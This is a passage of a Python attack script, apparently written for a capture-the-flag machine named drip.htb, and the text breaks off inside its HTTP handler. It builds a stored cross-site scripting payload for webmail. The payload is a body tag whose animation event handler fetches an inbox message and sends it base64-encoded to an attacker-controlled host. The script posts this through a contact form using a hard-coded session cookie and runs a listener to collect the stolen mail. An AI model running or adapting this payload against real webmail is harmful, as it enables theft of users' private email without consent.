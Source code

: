 ```python
parser.add_argument("--exfil-host", default="10.10.14.11", help="Host that receives exfil callback")
parser.add_argument("--exfil-port", default=7777, type=int, help="Port used in exfil callback URL")
parser.add_argument("--debug", action="store_true", help="Enable debug logging")
args = parser.parse_args()

if args.debug:
    logging.basicConfig(level=logging.DEBUG, format="%(asctime)s [%(levelname)s] %(message)s")
else:
    logging.basicConfig(level=logging.INFO, format="%(asctime)s [%(levelname)s] %(message)s")

# ---------- Payload pieces (same logic as your original) ----------
start_mesg = '<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch(\'/?_task=mail&_action=show&_uid='
message = 3
end_mesg = '&_mbox=INBOX&_extwin=1\').then(r=>r.text()).then(t=>fetch(`http://{}:{}/c=${{btoa(t)}}`)) foo=bar">Foo</body>'.format(
    args.exfil_host, args.exfil_port
)

post_data = {
    "name": "miao",
    "email": "miao",
    "message": f"{start_mesg}{message}{end_mesg}",
    "content": "html",
    "recipient": "bcase@drip.htb",
}

headers = {
    "Host": "drip.htb",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://drip.htb",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Referer": "http://drip.htb/index",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    # keep the cookie you provided originally
    "Cookie": "session=eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiOGI3NjgwNjMxNjU3YmEwNzlkM2RhNTNiMmY3ODcwN2ZjNTc3MWE1MyJ9.aPK2Ow.D6gdjFWOjD8SePFrA9oNerHdWVI",
    "Connection": "close",
}

logging.info("Final message payload (preview):\n%s", f"{start_mesg}{message}{end_mesg}")

# ---------- HTTP Server to capture exfil ----------
class ThreadedHTTPServer(ThreadingMixIn, HTTPServer):
    daemon_threads = True

class ExfilHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # Example path: /c=<base64payload>
        parsed = urlparse(self.path)
        path = parsed.path
        query = parsed.query

        # Try to extract payload from path first (/c=...)
        encoded = None
        if "/c=" in path:
            encoded = path.split("/c=")[1]
        else:
```